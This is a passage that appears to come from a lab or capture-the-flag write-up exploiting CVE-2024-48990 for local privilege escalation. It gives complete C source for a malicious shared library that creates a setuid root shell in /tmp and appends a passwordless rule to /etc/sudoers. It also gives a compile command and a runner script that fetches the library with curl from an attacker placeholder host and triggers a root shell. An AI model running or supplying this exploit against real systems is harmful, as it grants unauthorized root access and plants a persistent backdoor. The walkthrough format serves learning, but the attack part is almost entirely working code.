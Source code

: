 ### Exploit Setup

I based my exploitation on this [PoC](https://github.com/pentestfunctions/CVE-2024-48990-PoC-Testing)

> **Reminder**: gcc is not on the victim server, so I need to compile the exploit on my attacker machine

- Create `lib.c` for the malicious shared library:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/types.h>
#include <unistd.h>

static void a() __attribute__((constructor));

void a() {
    if(geteuid() == 0) {
        setuid(0);
        setgid(0);
        const char *shell = "cp /bin/sh /tmp/poc; chmod u+s /tmp/poc; echo 'ALL ALL=NOPASSWD: /tmp/poc' >> /etc/sudoers";
        system(shell);
    }
}
```

- Compile:

```bash
x86_64-linux-gnu-gcc -shared -fPIC -o __init__.so lib.c
```

- Transfer `__init__.so` to the target and prepare the Python trigger script (`runner.sh`):

```bash
#!/bin/bash
set -e
cd /tmp
mkdir -p malicious/importlib
curl http://<ATTACKER_IP>:8000/__init__.so -o /tmp/malicious/importlib/__init__.so

cat << 'EOF' > /tmp/malicious/e.py
import time
while True:
    try:
        import importlib
    except:
        pass
    if __import__("os").path.exists("/tmp/poc"):
        __import__("os").system("sudo /tmp/poc -p")
        break
    time.sleep(1)
EOF

cd /tmp/malicious; PYTHONPATH="$PWD" python3 e.py 2>/dev/null
```
